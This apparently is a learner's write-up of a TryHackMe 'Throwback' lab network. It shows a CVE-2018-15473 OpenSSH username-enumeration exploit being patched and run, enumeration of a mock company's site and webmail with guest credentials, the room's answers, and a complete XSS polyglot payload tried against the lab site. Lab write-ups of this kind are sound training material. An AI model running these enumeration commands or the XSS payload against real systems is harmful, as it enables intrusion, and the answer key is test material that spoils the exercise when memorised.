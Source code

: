 # Exploring the Caverns Part Three 

Part three now, but I feeling the momentuum of progression. Plan of attack before attempting to even look to answering questions on the Task 8 Drop-Down is as follows:

CVE-2018-15473 to get as many credientals as possible before SMB enumeration with Enum4linuxand smbmap, exfiltrating share data and credientals. If possible try to get foothold and maintain persistance with couple backdoors(just try to emulate what I atleast read about and tried in various THM rooms).

[CVE-2018-15473](https://nvd.nist.gov/vuln/detail/CVE-2018-15473_) states:  
*"OpenSSH through 7.7 is prone to a user enumeration vulnerability due to not delaying bailout for an invalid authenticating user until after the packet containing the request has been fully parsed, related to auth2-gss.c, auth2-hostbased.c, and auth2-pubkey.c."*

[exploit](https://github.com/Rhynorater/CVE-2018-15473-Exploit)
```bash
python3 sshUsernameEnumExploit.py 
Traceback (most recent call last):
  File "sshUsernameEnumExploit.py", line 33, in <module>
    old_parse_service_accept = paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_SERVICE_ACCEPT]
TypeError: 'property' object is not subscriptable

```
[issue:1](https://github.com/Rhynorater/CVE-2018-15473-Exploit/issues)

Find and replace all instances on \_handler_table with:
```bash
vim sshUsernameEnumExploit.py
:%s/_handler_table/_client_handler_table/gc
# Press a!
```
We then get:
```bash
python3 sshUsernameEnumExploit.py 
usage: sshUsernameEnumExploit.py [-h] [--port PORT] [--threads THREADS]
                                 [--outputFile OUTPUTFILE]
                                 [--outputFormat {list,json,csv}]
                                 (--username USERNAME | --userList USERLIST)
                                 hostname
sshUsernameEnumExploit.py: error: the following arguments are required: hostname
```
Find wordlists for usernames
```bash
root@ip-10-10-207-14:~/CVE-2018-15473-Exploit# locate usernames
/root/Rooms/BreachingAD/task3/usernames.txt
/usr/share/nmap/nselib/data/usernames.lst
/usr/share/wordlists/SecLists/Usernames/cirt-default-usernames.txt
/usr/share/wordlists/SecLists/Usernames/mssql-usernames-nansh0u-guardicore.txt
/usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
/usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames-dup.txt
/usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt
/var/lib/docker/overlay2/2d199c7783384d3e7736d37c79af646abb52d47edade257e9f6d0dd4192156c0/diff/usr/share/nmap/nselib/data/usernames.lst
/var/lib/gems/2.5.0/gems/metasploit-credential-3.0.4/spec/factories/metasploit/credential/blank_usernames.rb
/var/lib/gems/2.5.0/gems/metasploit-credential-3.0.4/spec/factories/metasploit/credential/usernames.rb
```
More Errors:
```bash
root@ip-10-10-207-14:~/CVE-2018-15473-Exploit# python3 sshUsernameEnumExploit.py --port 22 --threads 16 --outputFormat list --outputFile /root/sshoutTBPROD.txt --userList /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt 10.200.102.219
Traceback (most recent call last):
  File "sshUsernameEnumExploit.py", line 204, in <module>
    main()
  File "sshUsernameEnumExploit.py", line 151, in main
    if not checkVulnerable():
  File "sshUsernameEnumExploit.py", line 94, in checkVulnerable
    result = checkUsername(user)
  File "sshUsernameEnumExploit.py", line 82, in checkUsername
    transport.auth_publickey(username, paramiko.RSAKey.generate(1024))
  File "/usr/local/lib/python3.6/dist-packages/paramiko/transport.py", line 1580, in auth_publickey
    return self.auth_handler.wait_for_response(my_event)
  File "/usr/local/lib/python3.6/dist-packages/paramiko/auth_handler.py", line 236, in wait_for_response
    raise e
  File "/usr/local/lib/python3.6/dist-packages/paramiko/transport.py", line 2055, in run
    ptype, m = self.packetizer.read_message()
  File "/usr/local/lib/python3.6/dist-packages/paramiko/packet.py", line 459, in read_message
    header = self.read_all(self.__block_size_in, check_rekey=True)
  File "/usr/local/lib/python3.6/dist-packages/paramiko/packet.py", line 301, in read_all
    x = self.__socket.recv(n)
ConnectionResetError: [Errno 104] Connection reset by peer

```

While this a very meta-room note: after using nuclei on many other THM boxes it seems like this a somewhat unintended path. To get username enumeration, but seeing as I has yet to use this exploit and for the better of script modification and OSCP. I'll give this attempt futher credence at slightly later point, after manual website enumeration. 

## Manual Enumeration

![Intial](Screenshots/Inital.png)

### TB-PROD

Throwback Hacks is a IT Security Company, based out of the UK that like most British people use Latin to sound important and also accept as currency for services in the American Dollar. 

Powered by w3.css

Users 
http://10.200.102.219/#team

Summer Winters - CEO
Jeff Davies - CFO
Hugh Gongo - CTO
Rikka Foxx - Lead Dev

http://10.200.102.219/#contact

 Great Britain
 Phone: +00 151515
 Email: hello@TBHSecurity.com - @TBHSecurity company email 

### TB-EMAIL

http://10.200.102.232/src/webmail.php
Using Guest credentials:

![TBH-Email](TBH-Email.png)

![Inbox-Sent](TBH-Email-Flag.png)

tbhguest@throwback.local - internal email.

![Contacts](Contacts-List.png)

On the contacts tab all the local email addresses are avaliable for a guest user to email. This would present a flaw in the attempt to maintain high stardards of confidentality. This mailing list is goldmine for APT groups and cyber-criminals without phishing. The CEO, CFO,  CTO internal email addresses are exposed.

In the inbox.Sent a "NotAShell.exe" has been sent to 

![Inbox-Sent](Inbox-Sent-Guest1.png)


## THB-FW

pFsense login

![pfSense](pfSenseLogin.png)


## Answers

Who is the CEO of Throwback Hacks? 
```{toggle}
Summers Winters

```
Where is the company located?
```{toggle}
Great Britain
```
What is the guest username on the mail server?
```{toggle}
tbhguest
```
What is the guest password on the mail server?
```{toggle}
WelcomeTBH1!
```

## Finally
I realised that this experience was still quite fenced in given the amount of clickables and user input. And seeing as I have yet to complete the Phishing rooms and that one the advertised parts of this is phishing. Before moving forward I tried:
xxs polyglot:
```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

Attempt:
![xxsPoly](xxsPoly-Prod-attempt.png)

Response 
![xxsResp](Screenshots/xxsPoly-Prod-attempt-response..png)

I broke the burp suite browser trying this so had to restart. Maybe something to return too.